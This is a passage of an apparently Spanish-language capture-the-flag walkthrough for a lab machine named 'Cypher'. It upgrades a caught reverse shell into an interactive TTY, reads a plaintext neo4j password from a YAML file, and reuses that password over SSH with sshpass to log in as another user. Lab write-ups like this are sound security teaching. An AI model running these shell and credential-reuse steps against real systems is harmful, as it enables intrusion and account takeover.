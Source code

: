 Al recibir la Reverse Shell, la configuraremos para disponer de una TTY interactiva y poder realizar funciones como `Ctrl+C`, `Ctrl+L`, etc.

```bash
neo4j@cypher:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
neo4j@cypher:/$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
neo4j@cypher:/$ export TERM=xterm
neo4j@cypher:/$ export SHELL=bash
neo4j@cypher:/$ stty rows 46 columns 230
```

## Initial Access

### Information Leakage

Revisando el directorio de `/home/graphasm` nos encontramos con la flag **user.txt** la cual con el usuario actual no disponemos acceso. Por otro lado, también existe un archivo `YML` que al comprobar su contenido, aparecen unas credenciales en texto plano supuestamente del usuario `neo4j`.

```bash
neo4j@cypher:/home/graphasm$ ls -l
total 8
-rw-r--r-- 1 graphasm graphasm 156 Feb 14 12:35 bbot_preset.yml
-rw-r----- 1 root     graphasm  33 Mar  4 13:55 user.txt
neo4j@cypher:/home/graphasm$ cat user.txt 
cat: user.txt: Permission denied
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

### Trying access on SSH with recently found password

Probamos de autenticarnos con estas credenciales para verificar si se reutilizan para el usuario `graphasm` y finalmente logramos acceder al sistema y visualizar la flag **user.txt**.

```bash
❯ sshpass -p 'cU4btyib.20xtCMCXkBmerhK' ssh graphasm@10.129.111.76
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Mar  4 04:59:32 PM UTC 2025

  System load:  0.1               Processes:             235
  Usage of /:   68.9% of 8.50GB   Users logged in:       0
  Memory usage: 27%               IPv4 address for eth0: 10.129.111.76
  Swap usage:   0%


```